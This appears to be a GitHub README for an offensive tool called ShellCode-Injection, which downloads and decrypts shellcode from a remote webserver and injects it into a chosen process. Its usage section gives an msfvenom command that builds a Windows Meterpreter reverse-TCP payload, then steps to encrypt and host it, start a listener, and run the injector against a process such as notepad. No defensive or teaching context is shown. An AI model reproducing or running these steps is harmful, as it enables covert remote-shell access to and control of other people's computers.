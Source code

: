 # ShellCode-Injection

Download and decrypt a shellcode from a remote webserver, then inject it to a given process name

# Usage

1. Generate the shellcode

		msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

2. Encrypt the shellcode
	
		.\ShellCode_Encryptor.exe shellcode.bin
	
3. Host the encrypted shellcode and start the listener


4. Execute 

		.\ShellCode_Injection.exe <shellcode_Url> <process_name eg. notepad> 
